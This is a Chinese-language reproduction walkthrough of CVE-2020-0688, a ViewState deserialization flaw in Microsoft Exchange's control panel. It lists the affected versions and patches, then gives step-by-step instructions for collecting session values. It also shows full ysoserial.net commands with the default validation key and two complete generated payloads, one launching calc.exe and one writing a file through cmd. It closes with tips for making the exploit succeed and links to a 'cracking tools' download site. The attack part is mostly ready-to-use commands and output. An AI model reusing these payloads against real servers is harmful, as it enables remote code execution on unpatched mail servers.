





概述：CVE-2020-0688 漏洞复现及分析
免责声明：本文所-涉及的信息安全技术知识仅供参考和学习之用，并不构成任何明示或暗示的保证。读者在使用本文提供的信息时，应自行判断其适用性，并承担由此产生的一切风险和责任。本文作者对于读者基于本文内容所做出的任何行为或决定不承担任何责任。在任何情况下，本文作者不对因使用本文内容而导致的任何直接、间接、特殊或后果性损失承担责任。读者在使用本文内容时应当遵守当地法律法规，并保证不违反任何相关法律法规。
相关工具下载地址：爱盘 - 最新的在线破解工具包
注意这个漏洞修复的版本，需要修复之前的版本才可以复现。我自己在 Exchange 2016 cu21 上通过 payload 请求对应的接口时返回 400。
[toc]
漏洞说明
影响版本
Microsoft Exchange Server 2010 Service Pack 3
Microsoft Exchange Server 2013(cu23以下)
Microsoft Exchange Server 2016 (cu14以下)
Microsoft Exchange Server 2019(cu4以下)
漏洞原理
这个漏洞是由于Exchange服务器在安装时没有正确地创建唯一的加密密钥所造成的。
具体来说，与正常软件安装每次都会产生随机密钥不同，所有Exchange Server在安装后的 web.config 文件中都拥有相同的 valIDAtionKey 和 decryptionKey。这些密钥用于保证 ViewState 的安全性。而 ViewState 是ASP.NET Web应用以序列化格式存储在客户机上的服务端数据。客户端通过__VIEWSTATE请求参数将这些数据返回给服务器。攻击者可以在 ExchangeControl Panel web 应用上执行任意.net代码。
当攻击者通过各种手段获得一个可以访问Exchange Control Panel （ECP）组件的用户账号密码时。攻击者可以在被攻击的exchange上执行任意代码，直接获取服务器权限。
漏洞复现
本文复现环境：Exchange 2014 cu14
OS 名称: Microsoft Windows Server 2016 Datacenter
OS 版本: 10.0.14393 暂缺 Build 14393
前提条件
需要以下四个变量：
想要利用该漏洞，我们需要四个参数，分别为：
—validationkey = CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF（默认，漏洞产生原因）
—validationalg = sha1（默认，漏洞产生原因）
—generator=B97B4E27（基本默认）
—viewstateuserkey = ASP.NET_SessionId（手工获取，变量，每次登陆都不一致）
在这四个变量中，前两个为默认固定，viewstateuserkey 和 generator 的值需要从经过身份验证的 session 中收集。viewstateuserkey 可以从ASP.NET的_SessionID cookie 中获取，而 generator 可以在一个隐藏字段__VIEWSTATEGENERATOR 中找到。所有这些都可以通过浏览器中的工具轻松获取。
:star: 获取
viewstateuserkey和generator
登录 Exchange 邮箱页面，https://localhost/ecp（管理员页面） 或者 https://localhost/owa（个人页面）
登录成功后，重定到 https://localhost/ecp/default.aspx 页面，在 DevTools 中 查看 NetWork 中的 Headers，找到 Cookie 条目，在 Cookie中找到
ASP.NET_SessionId字段并获取值。:star: 在 Response 选项卡获取
__VIEWSTATEGENERATOR字段值 如果未找到此字段不必慌张，直接使用默认值B97B4E27 即可。我这边的环境是 Exchange 2016 CU21 ，没有这个字段。

使用工具生成 payload
使用ysoserial.net工具生成反序列化payload。 工具下载地址：https://github.com/pwntester/ysoserial.net/
生成payload命令：
# 参数说明
ysoserial.exe
-p ViewState
-g TextFormattingRunP
roperties -c "calc.exe"
--validationalg="SHA1" #默认，漏洞产生原因
--validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" #默认，漏洞产生原因
--gene
rator="B97B4E27" # 基本默认，如果能获取到，以获取到的为准
--viewstateuserkey="bf2c6983-d214-4c98-8bd3-d4ee908cc5f0" # 手动获取，每次登录都不一致
--isdebug --islegacy
# 临时模板
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="148b5b17-445a-4480-a2cc-a19057786a50" --isdebug --islegacy
# 临时模板 创建文件 -c "cmd /c echo test > C:\1.txt"
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "cmd /c echo test > C:\\1.txt" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="148b5b17-445a-4480-a2cc-a19057786a50" --isdebug --islegacy生成内容如下所示：
# 运行 calc.exe
D:\Release>ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="148b5b17-445a-4480-a2cc-a19057786a50" --isdebug --islegacy
Provided __VIEWSTATEGENERATOR in uint: 3111865895
simulateTemplateSourceDirectory returns: /
simulateGetTypeName returns: default_aspx
Calculated pageHashCode in uint (ignored): 3389719348
%2FwEylQcAAQAAAP%2F%2F%2F%2F8BAAAAAAAAAAwCAAAAXk1pY3Jvc29mdC5Qb3dlclNoZWxsLkVkaXRvciwgVmVyc2lvbj0zLjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxYmYzODU2YWQzNjRlMzUFAQAAAEJNaWNyb3NvZnQuVmlzdWFsU3R1ZGlvLlRleHQuRm9ybWF0dGluZy5UZXh0Rm9ybWF0dGluZ1J1blByb3BlcnRpZXMBAAAAD0ZvcmVncm91bmRCcnVzaAECAAAABgMAAAC3BTw%2FeG1sIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9InV0Zi0xNiI%2FPg0KPE9iamVjdERhdGFQcm92aWRlciBNZXRob2ROYW1lPSJTdGFydCIgSXNJbml0aWFsTG9hZEVuYWJsZWQ9IkZhbHNlIiB4bWxucz0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwvcHJlc2VudGF0aW9uIiB4bWxuczpzZD0iY2xyLW5hbWVzcGFjZTpTeXN0ZW0uRGlhZ25vc3RpY3M7YXNzZW1ibHk9U3lzdGVtIiB4bWxuczp4PSJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dpbmZ4LzIwMDYveGFtbCI%2BDQogIDxPYmplY3REYXRhUHJvdmlkZXIuT2JqZWN0SW5zdGFuY2U%2BDQogICAgPHNkOlByb2Nlc3M%2BDQogICAgICA8c2Q6UHJvY2Vzcy5TdGFydEluZm8%2BDQogICAgICAgIDxzZDpQcm9jZXNzU3RhcnRJbmZvIEFyZ3VtZW50cz0iL2MgY2FsYy5leGUiIFN0YW5kYXJkRXJyb3JFbmNvZGluZz0ie3g6TnVsbH0iIFN0YW5kYXJkT3V0cHV0RW5jb2Rpbmc9Int4Ok51bGx9IiBVc2VyTmFtZT0iIiBQYXNzd29yZD0ie3g6TnVsbH0iIERvbWFpbj0iIiBMb2FkVXNlclByb2ZpbGU9IkZhbHNlIiBGaWxlTmFtZT0iY21kIiAvPg0KICAgICAgPC9zZDpQcm9jZXNzLlN0YXJ0SW5mbz4NCiAgICA8L3NkOlByb2Nlc3M%2BDQogIDwvT2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KPC9PYmplY3REYXRhUHJvdmlkZXI%2BC5pwrvnjqqEqsSComECClVyJ7Frx
# 创建文件
D:\Downloads\ysoserial-1dba9c4416ba6e79b6b262b758fa75e2ee9008e9\Release>ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "cmd /c echo test > C:\1.txt" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="148b5b17-445a-4480-a2cc-a19057786a50" --isdebug --islegacy
Provided __VIEWSTATEGENERATOR in uint: 3111865895
simulateTemplateSourceDirectory returns: /
simulateGetTypeName returns: default_aspx
Calculated pageHashCode in uint (ignored): 3389719348
%2FwEyqwcAAQAAAP%2F%2F%2F%2F8BAAAAAAAAAAwCAAAAXk1pY3Jvc29mdC5Qb3dlclNoZWxsLkVkaXRvciwgVmVyc2lvbj0zLjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxYmYzODU2YWQzNjRlMzUFAQAAAEJNaWNyb3NvZnQuVmlzdWFsU3R1ZGlvLlRleHQuRm9ybWF0dGluZy5UZXh0Rm9ybWF0dGluZ1J1blByb3BlcnRpZXMBAAAAD0ZvcmVncm91bmRCcnVzaAECAAAABgMAAADNBTw%2FeG1sIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9InV0Zi0xNiI%2FPg0KPE9iamVjdERhdGFQcm92aWRlciBNZXRob2ROYW1lPSJTdGFydCIgSXNJbml0aWFsTG9hZEVuYWJsZWQ9IkZhbHNlIiB4bWxucz0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwvcHJlc2VudGF0aW9uIiB4bWxuczpzZD0iY2xyLW5hbWVzcGFjZTpTeXN0ZW0uRGlhZ25vc3RpY3M7YXNzZW1ibHk9U3lzdGVtIiB4bWxuczp4PSJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dpbmZ4LzIwMDYveGFtbCI%2BDQogIDxPYmplY3REYXRhUHJvdmlkZXIuT2JqZWN0SW5zdGFuY2U%2BDQogICAgPHNkOlByb2Nlc3M%2BDQogICAgICA8c2Q6UHJvY2Vzcy5TdGFydEluZm8%2BDQogICAgICAgIDxzZDpQcm9jZXNzU3RhcnRJbmZvIEFyZ3VtZW50cz0iL2MgY21kIC9jIGVjaG8gdGVzdCAmZ3Q7IEM6XDEudHh0IiBTdGFuZGFyZEVycm9yRW5jb2Rpbmc9Int4Ok51bGx9IiBTdGFuZGFyZE91dHB1dEVuY29kaW5nPSJ7eDpOdWxsfSIgVXNlck5hbWU9IiIgUGFzc3dvcmQ9Int4Ok51bGx9IiBEb21haW49IiIgTG9hZFVzZXJQcm9maWxlPSJGYWxzZSIgRmlsZU5hbWU9ImNtZCIgLz4NCiAgICAgIDwvc2Q6UHJvY2Vzcy5TdGFydEluZm8%2BDQogICAgPC9zZDpQcm9jZXNzPg0KICA8L09iamVjdERhdGFQcm92aWRlci5PYmplY3RJbnN0YW5jZT4NCjwvT2JqZWN0RGF0YVByb3ZpZGVyPgv76towxj%2B573J47CKdC8RZqXwH9g%3D%3D然后发起请求即可：
我这边使用的 Postman ，请求内容截图如下所示：

执行结果：
在服务器页面可以看到 calc 成功启动！

创建文件：

相关补丁
Microsoft Exchange Server 2010 Service Pack 3 Update Rollup 30 KB4536989
Microsoft Exchange Server 2013 Cumulative Update 23 KB4536988
Microsoft Exchange Server 2016 Cumulative Update 14 KB4536987
Microsoft Exchange Server 2016 Cumulative Update 15 KB4536987
Microsoft Exchange Server 2019 Cumulative Update 3 KB4536987
Microsoft Exchange Server 2019 Cumulative Update 4 KB4536987其他问题补充
1、关于版本
【2024年5月23日11:39:21】远古漏洞，本文仅限于学习和复现，已修复版本明确，修复之前的版本应该是均可以复现的，参考补丁版本
2、 __VIEWSTATEGENERATOR
在最初版本的时候一直没有这个参数（确实不重要，基本为默认值），造成这一问题的主要原因是没有更新系统补丁KB2919355，更新该补丁后就会出现__VIEWSTATEGENERATOR字段。
3、 无法创建文件
大部分复现者只复现到启动计算器，但是却无法创建文件。但经过测试发现问题出在ysoserial.exe的 -c 参数上，虽然在演示过程中可以直接 -c "echo OOOPS!!! > c:/Vuln_Server.txt" 创建文件，让人误以为 -c 是在 cmd 窗口下运行，但是实际上-c实际为“运行”的内容，因此直接echo是不行的，需要 -c "cmd /c echo test > C:\1.txt"，经测试成功创建文件，如图所示：

URL Encode编码
对生成的payload编码时，需要注意只编码关键的特殊字符即可，如果全编码的话会无法利用成功。